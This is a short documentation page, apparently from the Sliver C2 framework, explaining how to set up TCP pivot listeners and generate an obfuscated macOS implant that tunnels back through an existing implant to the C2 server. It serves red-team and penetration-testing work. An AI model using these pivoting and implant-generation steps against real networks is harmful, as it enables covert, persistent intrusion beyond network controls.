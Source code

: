 Pivots allow routing implant traffic through other implants. This can be usefull in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots, tcp which can be used on all operating systems and named pipes which are windows only.

In both cases the workflow is relatively similar, as a first step select a session and setup a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.
